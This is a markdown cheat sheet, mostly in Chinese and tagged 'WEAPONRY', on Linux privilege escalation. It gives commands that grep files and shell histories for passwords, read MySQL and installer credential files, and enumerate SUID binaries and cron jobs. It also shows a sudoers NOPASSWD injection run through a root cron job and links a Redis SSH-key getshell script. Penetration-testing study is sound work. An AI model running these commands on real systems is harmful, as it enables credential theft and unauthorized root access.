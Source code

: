 ```yaml
---
title: Linux Priv Esc
date: 2020-11-14 19:11:18
category: WEAPONRY
---
```


# Linux 提权

## 信息泄漏
### 泄漏的账密
``` bash
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password" # Joom
```
### 历史记录
``` bash
cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
```


## Kernel Vulns


## 配置不当

### 系统服务的错误权限配置漏洞
``` bash
cat /var/apache2/config.inc
cat /var/lib/mysql/mysql/user.MYD
cat /root/anaconda-ks.cfg
```

### sudo -l


### Crontab
``` bash
vi user.sh
echo "user ALL=(root) NOPASSWD: ALL" >> /etc/sudoers
```

`/etc/crontab` 中加入计划任务。
``` bash
vi /etc/crontab
*/1 * * * * root sh /path2script/user.sh >> /tmp/log.txt
```
最后
``` bash
sudo su
```

一些配置
``` bash
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```


### SUID 
``` bash
find / -perm -1000 -type d 2>/dev/null              # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
find / -perm -g=s -type f 2>/dev/null               # 以文件所属用户组权限运行
find / -perm -u=s -type f 2>/dev/null               # 以文件所属用户权限运行
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null # 以上两者合集
find / -user root -perm -4000 -print 2>/dev/null    # 先收集，待确认
find / -user root -perm -4000 -exec ls -ldb {} \    # 先收集，待确认

# Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done   

# 从 / 开始 3 个文件夹深度的范围内查找 SGID 或 SUID ，同时不是符号链接的文件
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null   
```

## Third Part Service

### Root-Redis 未授权访问
任意角色未授权登录，公钥写入。[redis-sshkey-getshell.py](https://github.com/Xyntax/POC-T/blob/9d538a217cb480dbd1f94f1fa6c8154a41b5b106/script/redis-sshkey-getshell.py)